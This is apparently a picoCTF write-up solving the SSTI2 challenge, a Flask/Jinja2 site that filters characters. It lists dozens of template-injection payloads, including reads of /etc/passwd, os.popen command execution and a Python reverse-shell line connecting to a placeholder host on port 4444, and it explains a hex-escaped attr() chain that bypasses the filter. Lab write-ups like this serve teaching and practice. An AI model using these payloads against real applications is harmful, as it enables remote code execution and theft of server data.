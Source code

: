 # SSTI2

AUTHOR: VENAX

Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.

Hints:

1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?

This challenge is the continuation of SSTI1, based on the title we could already know it is related to Server Side Template Injection attack. However, this challenge mentioned it has blocked certain characters.

![1000170803.jpg](1000170803.jpg)

We could not identified filtering used based on the website source code:

```java
<!doctype html>
      <title>SSTI2</title>
<h1> Home </h1>
<p> I built a cool website that lets you announce whatever you want!* </p><form action="/" method="POST"> 
What do you want to announce: <input name="content" id="announce"> <button type="submit"> Ok </button>
      </form>
      <p style="font
size:10px;position:fixed;bottom:10px;left:10px;"> *Announcements may only reach yourself </p>
```

We already know the website is using Jinja2 as template engine based on challenge SSTI1.

{{7*’7’}} returns 7777777 → Jinja2

We will brute force to identify the correct payload based on Jinja2:

```jsx
{{4*4}}
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}
{{ request }}
{{self}}
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{{self._TemplateReference__context.cycler.__init__.__globals__.os}}
{{self._TemplateReference__context.joiner.__init__.__globals__.os}}
{{self._TemplateReference__context.namespace.__init__.__globals__.os}}
{{cycler.__init__.__globals__.os}}
{{joiner.__init__.__globals__.os}}
{{namespace.__init__.__globals__.os}}
```

We successfully identified the correct payload that successfully executed on the server:

![image.png](image.png)

This is the full payload:

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

All we need to do know is to change the id to cat flag:

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

What the code does?

- \x5f is the hex encoding of _ (underscore)

The payload first sends the request and gives access to Flask application interface. It allow us to gain access to global variables. Next, it access global and builtins that allow access to builtin python functions such as import and open. import os helps load the os module that allows file manipulation and file access. os.popen(’cat flag’) will get the flag and read() will get output of the command and displays it. 

And we get the flag:

**picoCTF{sst1_f1lt3r_byp4ss_8b534b82}**